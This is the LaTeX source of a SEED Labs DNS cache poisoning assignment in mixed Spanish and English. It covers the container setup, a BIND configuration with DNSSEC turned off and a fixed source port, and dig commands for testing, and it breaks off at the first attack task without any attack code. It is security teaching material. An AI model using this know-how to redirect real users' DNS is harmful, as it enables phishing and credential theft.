%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%
%%  Copyright by Wenliang Du.                                       %%
%%  This work is licensed under the Creative Commons                %%
%%  Attribution-NonCommercial-ShareAlike 4.0 International License. %%
%%  To view a copy of this license, visit                           %%
%%  http://creativecommons.org/licenses/by-nc-sa/4.0/.              %%
%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%

\newcommand{\commonfolder}{../../common-files}

\documentclass[11pt]{article}

\usepackage[most]{tcolorbox}
\usepackage{times}
\usepackage{epsf}
\usepackage{epsfig}
\usepackage{amsmath, alltt, amssymb, xspace}
\usepackage{wrapfig}
\usepackage{fancyhdr}
\usepackage{url}
\usepackage{verbatim}
\usepackage{fancyvrb}
\usepackage{adjustbox}
\usepackage{listings}
\usepackage{color}
\usepackage{subfigure}
\usepackage{cite}
\usepackage{sidecap}
\usepackage{pifont}
\usepackage{mdframed}
\usepackage{textcomp}
\usepackage{enumitem}
\usepackage{hyperref}


% Horizontal alignment
\topmargin      -0.50in  % distance to headers
\oddsidemargin  0.0in
\evensidemargin 0.0in
\textwidth      6.5in
\textheight     8.9in 

\newcommand{\todo}[1]{
\vspace{0.1in}
\fbox{\parbox{6in}{TODO: #1}}
\vspace{0.1in}
}


\newcommand{\unix}{{\tt Unix}\xspace}
\newcommand{\linux}{{\tt Linux}\xspace}
\newcommand{\minix}{{\tt Minix}\xspace}
\newcommand{\ubuntu}{{\tt Ubuntu}\xspace}
\newcommand{\setuid}{{\tt Set-UID}\xspace}
\newcommand{\openssl} {\texttt{openssl}}


\pagestyle{fancy}
\lhead{\bfseries SEED Labs}
\chead{}
\rhead{\small \thepage}
\lfoot{}
\cfoot{}
\rfoot{}


\definecolor{dkgreen}{rgb}{0,0.6,0}
\definecolor{gray}{rgb}{0.5,0.5,0.5}
\definecolor{mauve}{rgb}{0.58,0,0.82}
\definecolor{lightgray}{gray}{0.90}


\lstset{%
  frame=none,
  language=,
  backgroundcolor=\color{lightgray},
  aboveskip=3mm,
  belowskip=3mm,
  showstringspaces=false,
%  columns=flexible,
  basicstyle={\small\ttfamily},
  numbers=none,
  numberstyle=\tiny\color{gray},
  keywordstyle=\color{blue},
  commentstyle=\color{dkgreen},
  stringstyle=\color{mauve},
  breaklines=true,
  breakatwhitespace=true,
  tabsize=3,
  columns=fullflexible,
  keepspaces=true,
  escapeinside={(*@}{@*)}
}

\newcommand{\newnote}[1]{
\vspace{0.1in}
\noindent
\fbox{\parbox{1.0\textwidth}{\textbf{Note:} #1}}
%\vspace{0.1in}
}


%% Submission
\newcommand{\seedsubmission}{
Debe enviar un informe de laboratorio detallado, con capturas de pantalla, para describir lo que ha hecho y lo que ha observado.
También debe proporcionar una explicación a las observaciones que sean interesantes o sorprendentes.
Enumere también los fragmentos de código más importantes seguidos de una explicación. No recibirán créditos aquellos fragmentos de códigos que no sean explicados.}

%% Book
\newcommand{\seedbook}{\textit{Computer \& Internet Security: A Hands-on Approach}, 2nd
Edition, by Wenliang Du. Para más detalles \url{https://www.handsonsecurity.net}.\xspace}

%% Videos
\newcommand{\seedisvideo}{\textit{Internet Security: A Hands-on Approach},
by Wenliang Du. Para más detalles \url{https://www.handsonsecurity.net/video.html}.\xspace}

\newcommand{\seedcsvideo}{\textit{Computer Security: A Hands-on Approach},
by Wenliang Du. Para más detalles \url{https://www.handsonsecurity.net/video.html}.\xspace}

%% Lab Environment
\newcommand{\seedenvironment}{Este laboratorio ha sido testeado en nuestra imagen pre-compilada de una VM con Ubuntu 16.04, que puede ser descargada del sitio oficial de SEED.\xspace}

\newcommand{\seedenvironmentA}{Este laboratorio ha sido testeado en nuestra imagen pre-compilada de una VM con Ubuntu 16.04, que puede ser descargada del sitio oficial de SEED.\xspace}

\newcommand{\seedenvironmentB}{Este laboratorio ha sido testeado en nuestra imagen pre-compilada de una VM con Ubuntu 20.04, que puede ser descargada del sitio oficial de SEED .\xspace}

\newcommand{\seedenvironmentC}{Este laboratorio ha sido testeado en nuestra imagen pre-compilada de una VM con Ubuntu 20.04, que puede ser descargada del sitio oficial de SEED. Sin embargo, la mayoría de nuestros laboratorios pueden ser realizados en la nube para esto Ud. puede leer nuestra guía que explica como crear una VM de SEED en la nube.\xspace}

\newcommand{\seedenvironmentAB}{
Este laboratorio ha sido testeado en nuestras imagenes pre-compiladas de una VM con Ubuntu 16.04 y otra con Ubuntu 20.04, que pueden ser descargadas del sitio oficial de SEED.\xspace}

\newcommand{\nodependency}{Dado que utilizamos contenedores para configurar el entorno de laboratorio, este laboratorio no depende estrictamente de la VM de SEED. Puede hacer este laboratorio utilizando otras máquinas virtuales, máquinas físicas o máquinas virtuales en la nube.\xspace}

\newcommand{\adddns}{You do need to add the required IP address mapping to
the \texttt{/etc/hosts} file.\xspace}






\newcommand{\seedlabcopyright}[1]{
\vspace{0.1in}
\fbox{\parbox{6in}{\small Copyright \copyright\ {#1}\ \ by Wenliang Du.\\
      Este trabajo se encuentra bajo licencia Creative Commons.
       Attribution-NonCommercial-ShareAlike 4.0 International License.
       Si ud. remezcla, transforma y construye a partir de este material,
       Este aviso de derechos de autor debe dejarse intacto o reproducirse de una manera que sea razonable para el medio en el que se vuelve a publicar el trabajo.
       }}
\vspace{0.1in}
}






\newcommand{\dnsFigs}{./Figs}
\lhead{\bfseries SEED Labs -- Laboratorio de Ataque al DNS Local}


\def \code#1 {\fbox{\scriptsize{\texttt{#1}}}}

\newcommand{\bankcom}{\url{bank32.com}\xspace}
\newcommand{\wwwbank}{\url{www.bank32.com}\xspace}
\newcommand{\examplenet}{\url{example.net}\xspace}
\newcommand{\wwwexample}{\url{www.example.net}\xspace}
\newcommand{\apollo}{\texttt{Apollo}\xspace}

\begin{document}

\begin{center}
{\LARGE Laboratorio de Ataque al DNS Local}
\end{center}

\seedlabcopyright{2018 - 2020}


% *******************************************
% SECTION
% ******************************************* 
\section{Descripción del Laboratorio}

DNS (Domain Name System o Sistema de nombre de Dominios) es la guía de teléfono de la Internet; se encarga de traducir los hostnames a direcciones IP (y visce versa). Esta traducción se hace a través de la resolución DNS, esta ocurre detrás de escena. Los ataques DNS manipulan este proceso de resolucion en varias maneras, con la intención de desviar a los usuarios a destinos alternativos, que a menudo son maliciosos.
El objetivo de este laboratorio es entender como funcionan estos ataques.
Los estudiantes harán el setup y la configuración de un servidor DNS y probarán varios ataques DNS en un target que está dentro del entorno del laboratorio.

Las dificultades en atacar víctimas locales contra víctimas remotas en lo que se refiere a los servidores DNS son bastante diferentes. Hemos desarrollado dos laboratorios, uno centrado en ataques locales DNS y el otro enfocado en ataques remotos de DNS. Este laboratorio se centra en los ataques locales.

Este laboratorio cubre los siguientes tópicos:


\begin{itemize}[noitemsep]
\item DNS y su funcionamiento
\item Setup de un servidor DNS
\item Ataque de DNS cache poisoning
\item Spoofing de respuestas DNS
\item Sniffing y Spoofing de paquetes
\item Scapy
\end{itemize}


\paragraph{Lecturas y Videos.}
Para una cobertura más detallada sobre el protocolo DNS y sus ataques puede consultar:

\begin{itemize}
\item Capítulo 18 del libro de SEED, \seedbook
\item Sección 7 del curso de SEED en Udemy, \seedisvideo
\end{itemize}


\paragraph{Entorno de Laboratorio.} \seedenvironmentC


% *******************************************
% SECTION
% *******************************************
\section{Setup del Entorno de Laboratorio}
\label{sec:environment}

El principal objetivo para un ataque de DNS cache poisoning es el servidor de DNS  local. Obviamente es ilegal atacar un servidor real, poor lo que necesitaremos crear y configurar nuestro propio servidor DNS para conducir los ataques en nuestros experimentos. El entorno de laboratorio necesita cuatro máquinas por separado:
una va a ser la máquina víctima, la segunda será el servidor de DNS local y las dos restantes serán las máquinas de los atacantes.
El setup del entorno del laboratorio se ilustra en la Figura \ref{dns:fig:environment}.
Este laboratorio se centra en el ataque local, por lo que pondremos todas las máquinas en la misma LAN.


\begin{figure}[htb]
\centering

\includegraphics[width=0.8\textwidth]{\commonfolder/Figs/DNS_2lans.pdf}
\caption{Setup del Entorno de Laboratorio}
\label{dns:fig:environment}
\end{figure}



% -------------------------------------------
% SUBSECTION
% -------------------------------------------
\subsection{Setup del Contenedor y sus Comandos}


%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%
Para empezar a preparar el contenedor, deberá descargarse el archivo \texttt{Labsetup.zip} ubicado en el laboratorio correspondiente dentro del sitio web oficial y copiarlo dentro de la Máquina Virtual prevista por SEED. Una vez descargado deberá descomprimirlo y entrar dentro del directorio \texttt{Labsetup} donde encontrará el archivo \texttt{docker-compose.yml} que servirá para setear el entorno de laboratorio. Para una información más detallada sobre el archivo \texttt{Dockerfile} y otros archivos relacionados, puede encontrarla dentro del Manual de Usuario del laboratorio en uso, en el sitio web oficial de SEED.

Si esta es su primera experiencia haciendo el setup del laboratorio usando contenedores es recomendable que lea el manual anteriormente mencionado.

A continuación, se muestran los comandos más usados en Docker y Compose.
Debido a que estos comandos serán usados con mucha frecuencia, hemos creados un conjunto de alias para los mismos, ubicados en del archivo \texttt{.bashrc} dentro de la Máquina Virtual provista por SEED (Ubuntu 20.04)

\begin{lstlisting}
$ docker-compose build  # Build the container image
$ docker-compose up     # Start the container
$ docker-compose down   # Shut down the container

// Aliases for the Compose commands above
$ dcbuild       # Alias for: docker-compose build
$ dcup          # Alias for: docker-compose up
$ dcdown        # Alias for: docker-compose down
\end{lstlisting}


Dado que todos los contenedores estarán corriendo en un segundo plano. Necesitamos correr comandos para interactuar con los mismos, una de las operaciones fundamentales es obtener una shell en el contenedor. 
Para este propósito usaremos \texttt{"docker ps"} para encontrar el ID del contenedor deseado y ingresaremos \texttt{"docker exec"} para correr una shell en ese contenedor.
Hemos creado un alias para ello dentro del archivo \texttt{.bashrc}

\begin{lstlisting}
$ dockps        // Alias for: docker ps --format "{{.ID}}  {{.Names}}" 
$ docksh <id>   // Alias for: docker exec -it <id> /bin/bash

// The following example shows how to get a shell inside hostC
$ dockps
b1004832e275  hostA-10.9.0.5
0af4ea7a3e2e  hostB-10.9.0.6
9652715c8e0a  hostC-10.9.0.7

$ docksh 96
root@9652715c8e0a:/#  

// Note: If a docker command requires a container ID, you do not need to 
//       type the entire ID string. Typing the first few characters will 
//       be sufficient, as long as they are unique among all the containers. 
\end{lstlisting}

En caso de problemas configurando el entorno, por favor consulte la sección ``Common Problems'' en el manual ofrecido por SEED. 


%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%



% -------------------------------------------
% SUBSECTION
% -------------------------------------------
\subsection{About the Attacker Container} 

Para este laboratorio podemos usar tanto una Máquina Virtual como un contenedor como máquina de ataque. Si observa el archivo Docker Compose, verá que el contenedor de ataque está configurado de forma diferente al resto de los contenedores.


\begin{itemize}
\item \textit{Directorio Compartido.} Cuando usemos el contenedor del atacante para realizar los ataques, necesitamos poner el código de ataque dentro del contenedor.
%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%
Code editing is more convenient inside the VM than in containers, 
because we can use our favorite editors.
In order for the VM and container to share files, 
we have created a shared folder between the VM and the container
using the Docker \texttt{volumes}.
If you look at the Docker Compose file, you will find out that
we have added the following entry to some of the containers.
It indicates mounting the \texttt{./volumes} folder on the host
machine (i.e., the VM) to the \texttt{/volumes} folder inside the container.
We will write our code in the \texttt{./volumes} folder (on the VM), so they
can be used inside the containers.

\begin{lstlisting}
volumes:
       - ./volumes:/volumes
\end{lstlisting}


%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%


\item \textit{Host mode.} 
%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%
In this lab, the attacker needs to be able to sniff packets,
but running sniffer programs inside a container has problems, because
a container is effectively attached to a virtual switch, 
so it can only see its own traffic, and it is never going to see 
the packets among other containers. To solve this problem,
we use the \texttt{host} mode for the attacker container. This
allows the attacker container to see all the traffics. The following
entry used on the attacker container:

\begin{lstlisting}
network_mode: host
\end{lstlisting}

When a container is in the \texttt{host} mode,  it sees
all the host's network interfaces, and it even has the same
IP addresses as the host. Basically, it is put in the
same network namespace as the host VM. However, the container
is still a separate machine, because its other namespaces are
still different from the host.


%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%
\end{itemize}



% -------------------------------------------
% SUBSECTION
% -------------------------------------------
%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%
%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%
%%  Copyright by Wenliang Du.                                       %%
%%  This work is licensed under the Creative Commons                %%
%%  Attribution-NonCommercial-ShareAlike 4.0 International License. %%
%%  To view a copy of this license, visit                           %%
%%  http://creativecommons.org/licenses/by-nc-sa/4.0/.              %%
%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%


% -------------------------------------------
% SUBSECTION
% ------------------------------------------- 
\subsection{Resumen de la Configuración del DNS} 

Todos los contenedores han sido configurados para este laboratorio.
Por lo que haremos un resumen de ellos, de esta manera los estudiantes estarán al tanto de estas configuraciones. Para explicaciones más detalladas sobre las configuraciones puede consultar el manual.



\paragraph{Servidor de DNS local.} 
Como servidor de DNS local usaremos el software BIND 9.
BIND 9 carga su configuración de un archivo llamado \path{/etc/bind/named.conf}. Este es el principal archivo de configuración y usualmente contiene varias entradas de \texttt{"include"}, por medio de este include puede cargar las configuraciones de diferentes archivos. Uno de los archivos usado por ese include es llamado \path{/etc/bind/named.conf.options}. Es en este archivo donde se establece la configuración actual.


\begin{itemize}
\item \textit{Simplificación.}
Los servidores DNS hoy en día randomizan el número de puerto de origen en sus consultas DNS; esto hace que los ataques sean mucho más difíciles. Desafortunadamente, muchos servidores DNS siguen usando número de puertos de origen predecibles. Para simplificar este laboratorio, hemos fijado el número de puerto de origen a {\tt 33333} dentro del archivo de configuración.

\item \textit{Desactivando DNSSEC.} 
DNSSEC fue introducido como mecanismo de protección en contra de ataques de spoofing en los servidores DNS. Para mostrar como funciona este ataque, hemos desactivado esta protección en el archivo de configuración.

\item \textit{DNS caché.}
Durante el ataque, necesitaremos inspeccionar la caché DNS en el servidor de DNS local. Los siguientes dos comando sirven para este propósito.
El primer comando hace un dump del contenido de la caché en el archivo \path{/var/cache/bind/dump.db}, y el segundo comando limpia la caché.

\begin{lstlisting}
# rndc dumpdb -cache    // Dump the cache to the specified file
# rndc flush            // Flush the DNS cache
\end{lstlisting}

\item \textit{Forwardeo de la zona \texttt{attacker32.com}.}
Una zona de forwardeo es agregada en el servidor de DNS local, por lo que si alguien quiere consultar el dominio \texttt{attacker32.com}, la consulta será forwardeada al nameserver de este dominio, que será hosteado en el contenedor del atacante. La entrada para esta zona se ubcica dentro del archivo \texttt{named.conf}.

\begin{lstlisting}
zone "attacker32.com" {
    type forward;
    forwarders { 
        10.9.0.153; 
    };
};
\end{lstlisting}
\end{itemize}



\paragraph{Máquina del Usuario.}
El contenedor del usuario cuya dirección IP es {\tt 10.9.0.5} está configurada para usar la dirección IP {\tt 10.9.0.53} como su servidor DNS local.
Esto se logra cambiando la configuración del archivo de resolución de la máquina del usuario (\texttt{/etc/resolv.conf}), se agrega el servidor \texttt{10.9.0.53}  como \texttt{nameserver} en la primera línea del archivo, de esta forma la máquina entenderá que este será el servidor DNS primario usado por defecto.


\paragraph{Nameserver del Atacante.}
Dentro de la máquina del atacante, se hostean dos zonas. La primera es la zona legítima del atacante \texttt{attacker32.com}, y la segunda es la zona falsa del dominio \texttt{example.com}. Las zonas son configuradas en el archivo \path{/etc/bind/named.conf}:

\begin{lstlisting}
zone "attacker32.com" {
        type master;
        file "/etc/bind/attacker32.com.zone";
};

zone "example.com" {
        type master;
        file "/etc/bind/example.com.zone";
};
\end{lstlisting}


%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%
%%  Copyright by Wenliang Du.                                       %%
%%  This work is licensed under the Creative Commons                %%
%%  Attribution-NonCommercial-ShareAlike 4.0 International License. %%
%%  To view a copy of this license, visit                           %%
%%  http://creativecommons.org/licenses/by-nc-sa/4.0/.              %%
%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%


% -------------------------------------------
% SUBSECTION
% ------------------------------------------- 
\subsection{Testing the DNS Setup}

From the User container, we will run a series of commands to ensure 
that our lab setup is correct. In your lab report, please document
your testing results. 


\paragraph{Get the IP address of \texttt{ns.attacker32.com}.}
When we run the following \texttt{dig} command, 
the local DNS server will forward the request to the Attacker nameserver 
due to the \texttt{forward} zone entry added to the local DNS server's
configuration file. Therefore, the answer should come from
the zone file (\texttt{attacker32.com.zone}) that we set up on the Attacker nameserver.
If this is not what you get, your setup has issues. Please describe your
observation in your lab report. 

\begin{lstlisting}
$ dig ns.attacker32.com
\end{lstlisting}



\paragraph{Get the IP address of \texttt{www.example.com}.} 
Two nameservers are now hosting the \texttt{example.com} 
domain, one is the domain's official nameserver, and the other 
is the Attacker container. We will query these two nameservers and see what 
response we will get. 
Please run the following two commands (from the User machine), 
and describe your observation. 


\begin{lstlisting}
// Send the query to our local DNS server, which will send the query
// to example.com's official nameserver. 
$ dig www.example.com

// Send the query directly to ns.attacker32.com 
$ dig @ns.attacker32.com www.example.com
\end{lstlisting}
 


Obviously, nobody is going to ask \texttt{ns.attacker32.com} for 
the IP address of \texttt{www.example.com}; they will always ask
the \texttt{example.com} domain's official nameserver for 
answers. The objective of the DNS cache poisoning attack
is to get the victims to ask 
\texttt{ns.attacker32.com} for the IP address of 
\texttt{www.example.com}. Namely, if our attack is successful, 
if we just run the first \texttt{dig} command, the one
without the \texttt{@} option, we should get the 
fake result from the attacker, instead of getting 
the authentic one from the domain's legitimate nameserver.



%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%



% *******************************************
% SECTION
% ******************************************* 
\section{Las tareas de ataque}

El principal objetivo de los ataques DNS sobre un usuario es poder redireccionar al usuario hacia una máquina $B$ cuando el usuario intente acceder a una máquina $A$ usando el hostname de $A$. Por ejemplo, cuando un usuario trata de acceder al online banking, los atacantes pueden redireccionarlo a un sitio web malicioso que luce casi igual al sitio oficial del banco, en consecuencia el usuario puede ser engañado y así los atacantes pueden obtener sus credenciales bancarias.



% -------------------------------------------
% SUBSECTION
% ------------------------------------------- 
\subsection{Tarea 1: Spoofing directo a la Respuesta del Usuarioo}



\begin{figure}[htb]
\centering

\includegraphics[width=1.0\textwidth]{\dnsFigs/attack_server_local.pdf}
\caption{Ataque Local de DNS Cache Poisoning}
\label{dns:fig:local_attack}
\end{figure}

